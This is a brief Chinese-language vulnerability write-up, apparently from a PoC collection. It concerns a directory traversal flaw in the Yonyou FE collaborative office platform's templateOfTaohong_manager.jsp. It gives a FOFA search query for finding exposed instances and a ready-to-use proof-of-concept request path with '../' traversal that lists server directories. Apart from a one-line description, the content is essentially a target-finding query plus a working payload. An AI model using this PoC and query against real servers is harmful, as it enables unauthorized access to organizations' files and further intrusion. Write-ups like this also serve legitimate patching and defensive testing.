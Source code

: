 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

```
用友 FE协作办公平台
```

## FOFA

```
"FE协作"
```

## 漏洞复现

登录页面

![image-20220520141413849](./images/202205201414968.png)

验证POC

```
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![image-20220520141519859](./images/202205201415920.png)